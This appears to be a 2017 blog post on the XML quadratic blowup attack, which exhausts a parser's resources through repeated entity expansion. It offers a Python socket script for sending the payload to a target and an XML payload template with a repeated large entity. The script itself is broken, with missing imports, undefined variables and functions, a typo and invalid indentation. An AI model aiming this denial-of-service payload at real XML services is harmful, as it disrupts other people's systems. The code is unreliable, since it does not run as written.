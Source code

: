 ```yaml
---
title: Quadratic Blowup Attack
tags: ["Web Attack", "Python", "Exploit", "Hack", "Web Exploit"]
date: 2017-12-04
cover: "/media/XMLExpquadratic.gif"
---
```


## Attack

An XML quadratic blowup attack is similar to a Billion Laughs attack. Essentially, it exploits the use of entity expansion. Instead of deferring to the use of nested entities, it replicates one large entity using a couple thousand characters repeatedly.
These attacks exists becasue applications often need to transform data in and out of the XML format by using an XML parser. It may be possible for an attacker to inject data that may have an adverse effect on the XML parser when it is being processed. These adverse effects may include the parser crashing, consuming too much of a resource, executing too slowly, executing code supplied by an attacker, allowing usage of unintended system functionality, etc. 


## Script

The following code can be used to send the payload to vulnerable application. For adding the SSL/TLS support import SSL lib and encapsulate plain socket in ssl socket using ssl.wrap_socket function(plainSocketHandle, ssl_version="").

```python
import socket,ssl

###########Code Snippet###########
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
addr = (sys.argv[1], int(sys.argv[2]))
    try:
        s.connect(addr)
        data = 'GET /rest/version HTTP/1.0\r\nContent-Type: application/xml\r\n\r\n' + exploit_PayloadGen()
        s.send(data)
        resp = ss.recv(1000)
        s.close()
        print("Attack Failed!!")
    except:
        time.sleep(1)
        if status == True:
            print("Attack Successful. XML application pawned!!!")
            status=False
###################################
```

#### Payload
```XML
<?xml version="1.0"?><!DOCTYPE payload [
<!ENTITY Aloo "AAAAAAAAAAAAAAAAAAA...">
]>
<payload>&Aloo;&Aloo;&Aloo;&Aloo;&Aloo;&Aloo;...</payload>

```
While forming payload the application XML schema plays a very important role. In order to automate the payload generation XSD files can be used to generate payload in proper schema structure which application under radar understands. 

## Exploit

![ Quadratic Blowup Attack GIF](/media/XMLExpquadratic.gif)


##### **References**:
1. [XML Attacks](http://capec.mitre.org/data/definitions/99.html)
2. [Billion Day Laugh](https://en.wikipedia.org/wiki/Billion_laughs_attack)
3. [GitHub](https://github.com/s4bu) 




